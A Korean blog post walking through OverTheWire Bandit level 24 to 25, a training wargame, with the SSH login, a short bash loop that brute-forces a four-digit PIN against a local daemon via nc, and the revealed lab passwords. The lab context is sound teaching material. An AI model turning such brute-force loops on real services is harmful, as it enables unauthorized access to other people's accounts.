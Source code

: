 ```yaml
---
layout: post
title: "[Bandit] Level 24 → 25 풀이"
date: 2025-07-05 09:05:00 +0900
categories: [bandit]
tags: [overthewire, bandit, linux, brute-force, shell-script]
---
```


> 📝 **공식 문제 (Level 24 → 25)**
>
> **Level Goal**
> A daemon is listening on port 30002 and will give you the password for bandit25 if you send it the password for bandit24 and a 4 digit numeric PIN code.
>
> **Commands you may need to solve this level**
> `nc`, `telnet`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit24`
  - 비밀번호: `D2J41fb8mpcr9hjsf32ECf2d012eK2g9`
  
- **접속 명령어**

  ```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `localhost:30002`로 접속하여 현재 비밀번호와 4자리 PIN을 입력해야 함을 확인
2.  0000부터 9999까지 모든 PIN을 시도하는 `for` 루프 쉘 스크립트 작성
3.  스크립트를 실행하여 올바른 PIN을 찾고 다음 비밀번호 획득

```bash
# 풀이용 스크립트 파일 (brute.sh) 내용
#!/bin/bash
PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
for i in {0000..9999}
do
  echo "$PASS $i"
done | nc localhost 30002 | grep -v "Wrong"
```

## 🧪 다른 풀이 방법
1.  스크립트 파일 없이, 터미널에서 한 줄로 for 루프를 실행

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v "Wrong"
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
pOhf1B4V482m1D5OPs2f42a5M7i42oSb
```

</details>

---

## 💡 배운 점
1. 쉘 스크립트 for 루프를 이용한 Brute-force 공격
2. {0000..9999}: 0으로 채워진 4자리 숫자를 순차적으로 생성함.
3. grep -v "Wrong": "Wrong"이 포함된 줄을 제외하고 출력하여, 성공한 결과만 필터링함.

<hr class="short-rule">